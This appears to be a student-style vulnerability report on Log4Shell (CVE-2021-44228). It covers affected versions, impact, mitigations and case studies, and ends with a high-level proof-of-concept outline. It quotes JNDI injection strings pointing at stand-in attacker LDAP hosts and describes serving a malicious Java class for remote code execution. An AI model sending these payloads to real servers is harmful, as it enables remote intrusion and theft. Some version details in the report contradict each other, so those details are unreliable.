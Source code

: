 A feature in Log4j allows message lookup (`JNDI Lookup`), meaning if a logged string contains something like `${jndi:ldap://attacker.com/payload}`, Log4j will query the given LDAP server.

If the LDAP response contains a reference to a remote Java class, the vulnerable application will fetch and execute the code **remotely**, leading to **Remote Code Execution (RCE)**.

My research on log4j:

# Vulnerability assessment report
**CVE-2021-44228 (Log4Shell)**

Affected Product: Apache Log4j2 2.0-beta9 through 2.15.0 (From log4j 2.15.0, this behavior has been disabled by default. From version 2.16.0 (along with 2.12.2, 2.12.3, and 2.3.1), this functionality has been completely removed.)

**Affected Service:** log4j is part of Apache logging service.

**Affected Vendor:** Apache Software Foundation (ASF).

#### Technical Description About The Vulnerability:

Nature of the Vulnerability: 
	CVE-2021-44228 stems from the way Log4j 2 handles JNDI (Java Naming and Directory Interface) lookups. JNDI is a Java API used to find objects in a network, often for the purpose of looking up directories or remote services. However, Log4j 2 incorrectly allows JNDI lookups within log entries, making it possible for an attacker to inject untrusted data into logs and initiate a JNDI request to an attacker-controlled LDAP (Lightweight Directory Access Protocol) or DNS server.

Attack Vector: 
	The vulnerability is triggered when a crafted log message (e.g., an HTTP header, a form input, or a user agent) containing malicious ${jndi:ldap://maliciousserver} syntax is processed by Log4j 2. This lookup results in Log4j making an external call to the attacker’s LDAP server, which could return an arbitrary Java object that gets deserialized, allowing remote code execution (RCE).

Why It’s Dangerous:
	The issue is exacerbated by the fact that log entries can come from numerous untrusted sources such as HTTP headers, user inputs, chat messages, and form submissions, providing ample opportunities for attackers to trigger the vulnerability. Additionally, Java's inherent features like deserialization and network accessibility make this kind of attack particularly powerful and easy to exploit.

Affected Versions:
	Log4j 2 versions from 2.0-beta9 to 2.14.1 are vulnerable. Later versions (starting from 2.15.0) have patched this vulnerability.

Impact Description:
	Remote Code Execution (RCE):
	The primary impact of exploiting CVE-2021-44228 is remote code execution. This means that an attacker can execute arbitrary commands on the server where the vulnerable Log4j instance resides. Since Log4j is often used in critical infrastructure, this gives attackers high-level access to the system.

Potential Consequences:
	Full System Compromise: Once an attacker gains access, they can perform any operation within the privileges of the vulnerable application. In many cases, this can lead to a full system compromise.

	Data Theft: Attackers could gain unauthorized access to sensitive data (e.g., customer information, internal logs, API keys, etc.).

	Network Pivoting: Attackers may use compromised systems to move laterally across a network, compromising other systems and gaining further access to resources.

	Installing Malware or Ransomware: Attackers could deploy additional malicious payloads such as ransomware, crypto-miners, or backdoors.

	Denial of Service (DoS): By exploiting RCE, attackers could potentially disrupt services, leading to prolonged downtimes.

Wide Attack Surface:
	Given the popularity of Log4j, the attack surface is enormous. This vulnerability has the potential to affect not only public-facing services but also internal systems. For instance, it has been found in web servers, cloud services, enterprise databases, and even IoT devices.

Real-World Exploits:
	CVE-2021-44228 was quickly weaponized by threat actors upon discovery. Reports surfaced that state-sponsored actors, ransomware groups, and cybercriminals were using the vulnerability to exploit systems worldwide. Major services like AWS, Microsoft, and Cloudflare quickly issued advisories and mitigations due to the widespread use of the vulnerable Log4j versions.


Recommendation on how to fix/mitigate this vulnerability:
	Ways to avoid the “Log4shell” CVE is to:
    1. Educate people that are connected to the same network as you to understand the vulnerability and its risks.
    2. Make sure the Apache log4j software is updated to the latest version.
    3. Doing regular audits and making sure all software is up to date.
    4. Make sure  the system is setup properly, and according to your particular computing needs
    5. Removing the “JndiLookup” class from the classpath through.
    6. Making sure to setup firewall rules to not allow malicious traffic from people that sre looking to exploit this CVE.




Case studies:

Known case studies include – 
    1. The SANS Institute analysed a retail company that suffered data exfiltration after attackers exploited the vulnerability to gain remote access. GitHub documented their response to the vulnerability by conducting an extensive audit of their repositories, resulting in over 35,000 dependencies reviewed and multiple updates deployed within days. 
    2. AWS reported that they mitigated risks by integrating automatic detection mechanisms, ultimately preventing exploitation across numerous customer accounts
    3. CISA issued a warning about a significant increase in exploitation attempts within the first week of discovery, leading to a nationwide alert to bolster defences.

CISA – Cyber security Information Sharing Act an American federal law
SANS- stand for SysAdmin, Audit, Network, and Security it is the world's largest cyber security research and training organisation.

**Idea of a POC on the high level:**
##### Step 1: Create a malicious Java class payload
Define malicious Java class:
    - Implement a static block that executes a system command.
    - Compile the Java class to `.class` file

##### Step 2: Host the malicious payload
Start a basic HTTP server to serve the `.class` file:
    - Ensure the server is reachable over the internet

##### Step 3: Setup an LDAP server that redirects requests
Create LDAP reference server:
    - Configure it to respond with a reference to the malicious `.class` file
    - Ensure LDAP returns a Java object that loads the class from the HTTP server

##### Step 4: Inject the exploit payload
Write a malicious log string:
    `${jndi:ldap://attacker.com:1389/exploit}`
    - This tells the vulnerable Log4j app to reach out to the attacker's LDAP server

Send the payload via a request to the target:

##### Step 5: Observe Remote Code Execution (RCE)
Check:
    - Check if the Java application queries the attacker's LDAP server
    - If successful, check if the vulnerable server fetches and executes the payload from the HTTP server
    - Verify that the malicious command is executed on the target machine.

